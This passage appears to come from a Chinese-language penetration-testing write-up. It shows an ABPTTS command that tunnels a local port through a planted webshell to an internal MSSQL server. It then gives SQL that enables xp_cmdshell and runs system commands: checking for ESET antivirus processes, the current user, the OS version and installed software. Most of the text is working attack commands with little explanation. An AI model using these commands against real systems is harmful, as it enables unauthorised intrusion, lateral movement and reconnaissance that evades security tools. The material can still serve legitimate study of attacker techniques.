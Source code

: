 ```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:143/192.168.3.13:1433
```

将本地 143 端口转发到 1433  
使用服务端工具连接即可  
![image.png](assets/1706232584-cac2d587a3a9b5ed7aab254b178dca49.png)  
**尝试启动 xp\_cmdshell**

```php
select @@version;
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell',1;reconfigure;
exec master..xp_cmdshell 'tasklist | findstr /c:"ekrn.exe" /c:"egui.exe" & whoami /user';
exec master..xp_cmdshell 'wmic OS get Caption,CSDVersion,OSArchitecture,Version';
exec master..xp_cmdshell 'wmic product get name,version';
```

![image.png](assets/1706232584-cb3b0b2ce438d7b91ad79cb4b0ba6206.png)  